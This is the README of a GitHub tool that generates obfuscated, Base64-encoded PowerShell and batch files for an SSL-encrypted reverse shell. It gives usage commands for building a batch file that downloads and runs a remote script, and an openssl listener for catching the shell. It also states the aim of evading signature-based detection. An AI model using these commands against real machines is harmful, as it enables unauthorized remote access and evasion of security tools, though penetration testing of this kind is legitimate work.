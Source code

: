 # Reception: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
git clone https://github.com/ShkudW/Reverser.git
cd Reception
```

## Usage

Generate an Encoded PowerShell Script:
```bash
python3 Reverser.py -ip <Your_Listener_Server_IP> -port <Your_Listener_Server_PORT> -type ps1
```

Generate a Batch File and PowerShell Script:
```bash
python3 Reverser.py -ip <Your_Listener_Server_IP> -port <Your_Listener_Server_PORT> -type bat -server http://<Your_Server_ip|URL>/<File-Name>.ps1
```

Open a listener for downloadingg the PS1 file with listener.py:
```bash
python3 listener.py -port <Your_Server_PORT>
```

Open a listener for getting Reverse-Shell with OpenSSL:
```bash
openssl s_server -accept <Your_Listener_Port> -cert reception.pem -key reception.key -quiet
```

## PoC:
Generate a Batch File that downloading and executing a PS1 file:
```
![image](https://github.com/user-attachments/assets/4816ff7f-e694-413b-8a82-eb6eec74df65)
```

Running the Batch file on the target machine, the connection is not secure yet, and headers that look legitimate are passed:
```
![image](https://github.com/user-attachments/assets/87a630c3-2310-4f91-a8fe-d0948523de2f)
```

Running the listener server and getting a request for downloaing the PS1 file:
```
![image](https://github.com/user-attachments/assets/14618c88-ba1b-452d-8b26-5e803c47772d)
```

Traffic is secure:
```
![image](https://github.com/user-attachments/assets/42f5453d-4687-4432-bfb4-070074260549)
```

Getting a Secure Reverse Shell:
```
![image](https://github.com/user-attachments/assets/16ecaf01-05fa-4e18-84a6-c063937ad808)
```


